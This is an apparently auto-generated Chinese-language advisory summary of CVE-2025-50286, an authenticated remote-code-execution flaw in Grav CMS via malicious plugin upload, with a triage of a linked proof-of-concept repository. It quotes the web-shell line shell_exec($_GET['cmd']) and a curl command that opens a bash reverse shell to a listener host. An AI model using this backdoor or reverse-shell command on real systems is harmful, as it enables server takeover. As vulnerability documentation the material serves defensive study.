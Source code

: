 ## CVE-2025-50286 - Grav CMS Authenticated RCE

**漏洞编号:** CVE-2025-50286

**漏洞类型:** 远程代码执行 (RCE)

**影响应用:** Grav CMS

**危害等级:** 高危，可完全控制服务器

**影响版本:** v1.7.48 / Admin Plugin v1.10.48

**利用条件:** 需要管理员权限

**POC 可用性:** 是

**投毒风险:** 5%

## 详情

该漏洞存在于Grav CMS v1.7.48和Admin Plugin v1.10.48中，允许经过身份验证的管理员通过"Direct Install"插件上传功能执行任意PHP代码。 

**有效性:**
提供的POC代码有效。它通过上传包含恶意PHP代码的插件ZIP包，并利用`shell_exec`函数执行通过GET参数传递的命令，从而实现远程代码执行。`evilplugin.php` 文件中的 `shell_exec($_GET['cmd'])` 就是后门所在。

**投毒风险:**
考虑到以下几点，投毒风险较低：
*   代码库主要包含漏洞的利用方法和PoC，目标明确。
*   LICENSE文件声明了版权信息。
*   README文件详细描述了漏洞信息和利用方法，方便使用者理解。
*   PoC代码结构清晰，功能单一，易于审计。
*   虽然漏洞本身可能被滥用，但代码库内容本身没有明显的恶意行为。

尽管如此，考虑到网络安全领域的复杂性，以及开发者可能在代码中植入不易察觉的后门，仍然不能完全排除投毒的可能性。因此，保守起见，将投毒风险评估为5%。

**利用方式:**
1.  攻击者需要获得Grav CMS后台管理员权限。
2.  准备一个包含恶意PHP代码的插件ZIP文件。该ZIP文件需要包含一个PHP文件（例如`evilplugin.php`），该文件包含执行系统命令的代码（例如`shell_exec($_GET['cmd'])`）。同时，需要包含一个最小化的`blueprints.yaml`文件以通过插件安装验证。
3.  登录到Grav CMS后台管理界面，导航到 `Tools > Direct Install`。
4.  上传准备好的恶意插件ZIP文件。
5.  通过构造包含`cmd`参数的HTTP请求，触发插件中的恶意代码，从而执行任意系统命令。例如：`curl --get --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/host.docker.internal/4444 0>&1'" http://<target>/`。

**项目地址:** [binneko/CVE-2025-50286](https://github.com/binneko/CVE-2025-50286)

**漏洞详情:** [CVE-2025-50286](https://nvd.nist.gov/vuln/detail/CVE-2025-50286)